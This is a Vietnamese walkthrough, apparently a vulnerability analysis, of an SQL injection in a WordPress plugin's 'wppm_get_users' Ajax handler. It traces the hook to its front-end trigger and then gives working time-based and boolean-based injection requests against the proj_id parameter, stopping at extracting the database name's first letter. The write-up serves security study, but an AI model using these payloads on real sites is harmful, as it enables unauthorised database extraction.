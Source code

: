 - `add_action()` là một **Plugin API** của WordPress, cho phép gắn một **callback** vào một **action hook**.
- `wp_ajax_wppm_get_users` là tên hook Ajax, với quy tắc đặt tên:
    - `wp_ajax_{action}` => Xử lý Ajax khi user đã đăng nhập.
    - `wp_ajax_nopriv_{action}` => Xử lý Ajax khi user chưa đăng nhập.
- Ở đây, `action = wppm_get_users`. Nghĩa là nếu trong Ajax request bạn gửi `action=wppm_get_users` tới `admin-ajax.php`, thì WordPress sẽ **tìm callback tương ứng để xử lý**, ở đây là `wppm_get_users()`.

👉 Ta đã biết được `action = wppm_get_users`, kiểm tra xem Ajax nào sử dụng action này bằng cách tìm từ khóa `wppm_get_users` trên các file **.js** trong thư mục chứa plugin.

![ajax search](ajax_search.png "Ajax search")

Action `wppm_get_users` là phần data trong request POST của hàm `wppm_get_users()`

Hàm `wppm_get_users()` sẽ được đặt trong HTML attribute của **chức năng project**
- Tạo project mới
- Truy cập vào project đó
- Inspect code và tìm hàm `wppm_get_users` sẽ được đặt ở đâu, hành động nào sẽ gọi nó

![ajax inspect](ajax_inspect.png "Ajax inspect")

👉 Khi click vào **icon bên cạnh Users** ajax sẽ hoạt động, gửi request đến server, lấy danh sách các user tham gia project và mã HTML hiển thị nó.

![model_display](model_display.png "Model display")

---

## Exploit
### Detect SQLi

Bắt request bằng BurpSuite, gửi request với SQLi payload **time base**

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

![sqli_success](sqli_success.png "Sqli success")

Thời gian phản hồi bị delay => SQL Injection thành công.

### Get First Letter of Database Name
Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì toàn bộ data đều dump được.

Gửi request với SQLi payload **boolean base** vói `proj_id` đúng:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+IF(SUBSTRING(DATABASE(),1,1)=0x77,4,999))
```
